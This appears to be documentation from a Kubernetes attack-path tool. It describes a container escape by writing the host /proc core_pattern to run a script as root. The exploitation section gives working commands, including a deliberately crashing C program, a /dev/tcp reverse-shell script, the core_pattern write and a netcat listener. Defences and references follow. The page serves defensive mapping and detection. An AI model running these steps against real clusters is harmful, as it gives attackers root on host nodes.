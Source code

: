 # CE_UMH_CORE_PATTERN

Container escape via the `core_pattern` `usermode_helper` in the case of an exposed `/proc` mount.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md) | [Node](../vertices/NODE.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

## Details

[/proc/sys/kernel/core_pattern](https://man7.org/linux/man-pages/man5/core.5.html) defines a program which is executed on core-file generation (typically a program crash) and is passed the core file as standard input if the first character of this file is a pipe symbol `|`. This program is run by the root user and will allow up to 128 bytes of command line arguments. Attacker control of this progam would allow trivial code execution within the container host given any crash and core file generation (which can be simply discarded during a myriad of malicious actions). With write access to the host `/proc` directory and no additional privileges, an attacker can abuse this to escape a container and gain root on the containing K8s node.

## Prerequisites

Execution within a container process with the host `/proc/sys/kernel` (or any parent directory) mounted inside the container.

See the [example pod spec](../../test/setup/test-cluster/attacks/CE_UMH_CORE_PATTERN.yaml).

## Checks

Determine mounted volumes within the container as per [VOLUME_MOUNT](./VOLUME_MOUNT.md#checks). If the host `/proc/sys/kernel` (or any parent directory) is mounted, this attack will be possible. Example below.

```bash
$ cat /proc/self/mounts

...
proc /hostproc proc rw,nosuid,nodev,noexec,relatime 0 0
...
```

## Exploitation

First find the path of the container’s filesystem on the host. This can be done by retrieving the current mounts (see [VOLUME_MOUNT](./VOLUME_MOUNT.md#checks)). Looks for the `upperdir` value of the overlayfs entry associated with containerd:

```bash
$ cat /etc/mtab
...
overlay / overlay rw,relatime,lowerdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/27/fs,upperdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/71/fs,workdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/71/work 0 0
...

# Store path in a variable for future use
$ OVERLAY_PATH=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/71/fs
```

Oneliner alternative:

```bash
export OVERLAY_PATH=$(cat /proc/mounts | grep -oe upperdir=.*, | cut -d = -f 2 | tr -d , | head -n 1)
```

Next create a mini program that will crash immediately and generate a kernel coredump. For example:

```bash
echo 'int main(void) {
	char buf[1];
	for (int i = 0; i < 100; i++) {
		buf[i] = 1;
	}
	return 0;
}' > /tmp/crash.c && gcc -o crash /tmp/crash.c
```

Compile the program and copy the binary into the container as crash. Next write a shell script to be triggered inside the container’s file system as `shell.sh`:

```bash
# Reverse shell
REVERSE_IP=$(hostname -I | tr -d " ") && \
echo '#!/bin/sh' > /tmp/shell.sh
echo "sh -i >& /dev/tcp/${REVERSE_IP}/9000 0>&1" >> /tmp/shell.sh && \
chmod a+x /tmp/shell.sh
```

Finally write the `usermode_helper` script path to the `core_pattern` helper path and trigger the container escape:

```bash
cd /hostproc/sys/kernel
echo "|$OVERLAY_PATH/tmp/shell.sh" > core_pattern
sleep 5 && ./crash & nc -l -vv -p 9000
```

## Defences

### Monitoring

+ Use the Datadog agent to monitor for creation of new `usermode_helper` programs via writes to known locations, in this case `/proc/sys/kernel_core_pattern`.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of `/proc` or other sensitive locations.

### Least Privilege

Avoid running containers as the root user. Specify an unprivileged user account using the `securityContext`.

## Calculation

+ [EscapeUmhCorePattern](../../pkg/kubehound/graph/edge/escape_umh_core_pattern.go)

## References:

+ [Compendium Of Container Escapes](https://i.blackhat.com/USA-19/Thursday/us-19-Edwards-Compendium-Of-Container-Escapes-up.pdf)
+ [Sensitive Mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
+ [Escaping privileged containers for fun](https://pwning.systems/posts/escaping-containers-for-fun/)
